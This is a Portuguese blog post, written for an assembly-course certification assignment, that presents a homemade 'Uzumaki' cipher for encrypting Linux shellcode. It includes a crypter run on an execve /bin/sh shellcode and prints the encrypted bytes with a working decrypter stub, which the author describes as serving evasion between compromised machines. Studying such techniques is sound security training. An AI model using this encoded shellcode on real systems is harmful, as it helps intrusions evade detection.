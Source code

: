 ```yaml
---
layout: post
title: SLAE - 7th Assignment - Crypted Shellcodes
date: '2013-04-29T12:03:00.000-03:00'
author: geyslan
categories: blog
excerpt: ""
tags: [slae, shellcode, linux, code, assembly, python, cryptography, hacking, portuguese]
share: true
modified: '2013-08-22T13:17:25.039-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-2083288330686489851
blogger_orig_url: http://www.hackingbits.com/2013/04/slae-7th-assignment-crypted-shellcodes.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
[SLAE - 2nd Assignment - Shell Reverse TCP](/slae-2nd-assignment-shell-reverse-tcp.html)<br>
[O menor do mundo? Yeah? So Beat the Bits!](/o-menor-do-mundo-yeah-so-beat-bits.html)<br>
[SLAE - 3rd Assignment - Caçando Ovos?](/slae-3rd-assignment-cacando-ovos.html)<br>
[SLAE - 4th Assignment - Encoding and Decoding Gollums](/slae-4th-assignment-encoding-and.html)<br>
[SLAE - 5th Assignment - Metasploit Shellcodes Analysis](/slae-5th-assignment-metasploit.html)<br>
[SLAE - 6th Assignment - Polymorphic Shellcodes](/slae-6th-assignment-polymorphic.html)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/7th.assignment)*.

*Shell-Storm:<br>
[Tiny Execve Sh](http://shell-storm.org/shellcode/files/shellcode-841.php)<br>
[Insertion Decoder Shellcode](http://shell-storm.org/shellcode/files/shellcode-840.php)*

##The Last Mission

Finalmente, o último assignment.

###7th assignment

- Criar um crypter customizado.
- Utilizar qualquer esquema de criptografia existente.
- Usar qualquer linguagem de programação.

##Criptografia!

O vídeo sobre o assunto demonstra um encrypter e um decrypter, construídos em C,
que usam o algoritmo de fluxo [RC4](http://en.wikipedia.org/wiki/RC4) para
processar o shellcode. De início eu não contemplei a que fim serviria um
shellcode critptografado que não conteria seu decrypter embutido, portanto,
agradeço ao Pedro Fausto pela objetiva explanação que me deixou inteirado das
possíveis finalidades: uso na comunicação entre dois pontos já comprometidos;
uso entre um bastião e seus zumbis... Em suma, para qualquer uso evasivo entre
pontos!

Encontrei um algoritmo candidato para a implementação do crypter: [TEA - Tiny
Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm).
Entretanto, vi que ele não seria viável por conta do tamanho que ele teria em
[assembly](http://nayuki.eigenstate.org/page/tiny-encryption-algorithm-in-x86-assembly);
haja vista não ter aberto mão de criar o built-in decrypter.

Só tinha uma maneira, criar meu próprio tiny
[cipher](http://en.wikipedia.org/wiki/Cipher).

##Uzumaki Cipher (Swirling Everything)

Usei os moldes da [Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)
para criar o Uzumaki (うずまき) Cipher; a cifra consiste no processo de um XOR com
um valor estático, seguido de mais um XOR com um valor pseudorandom (keystream),
terminando com o ADD de um valor estático.

###Crypter

**shellcode[x-1] ^ (shellcode[x] ^ xorByte)) + addByte**

###Built-in Decrypter

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/7th.assignment/uzumaki_decrypter.png" caption="Fluxograma do Uzumaki Cipher" %}

O uzumaki cipher é um algoritmo simples que pode ser utilizado com sucesso em
shellcodes quando o assunto é evasão. Devo ressaltar que um dado criptografado,
para sua própria segurança, não deve conter informações que possam levar à
desencriptação; assim, o built-in decrypter do fluxograma acima (no git com
código comentado) foi criado apenas como uma
[PoC](http://en.wikipedia.org/wiki/Proof_of_Concept). Contudo, nada obsta seu
uso.

##Uso

{% highlight console %}
$ ./uzumaki_crypter.py -a 01 -x 5d -s $'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
...
Crypted shellcode:

"\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11

Crypted shellcode with decrypter built-in:

"\x29\xc9\x74\x14\x5e\xb1\x14\x46\x8b\x06\x83\xe8\x01\x34\x5d\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8\xe7\xff\xff\xff\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x29,0xc9,0x74,0x14,0x5e,0xb1,0x14,0x46,0x8b,0x06,0x83,0xe8,0x01,0x34,0x5d,0x32,0x46,0xff,0x88,0x06,0xe2,0xf1,0xeb,0x05,0xe8,0xe7,0xff,0xff,0xff,0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11
{% endhighlight %}

##Fim!?

É isso aí pessoal! Essa foi a última missão do curso SLAE! E até que foi
simples, porque no decorrer dos posts, aprendemos muitas formas de utilizar a
linguagem assembly para a criação de vários tipos de shellcodes.

Espero que tenham gostado!

[]

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[Get shellcode of the binary using objdump - Andrey Arapov](http://www.commandlinefu.com/commands/view/12151/get-shellcode-of-the-binary-using-objdump#comment)<br>
[RC4](http://en.wikipedia.org/wiki/RC4)<br>
[Tiny Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm)<br>
[Cipher](http://en.wikipedia.org/wiki/Cipher)<br>
[Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)<br>
[Uzumaki - Denshi Jisho](http://jisho.org/words?jap=uzumaki&eng=&dict=edict)<br>
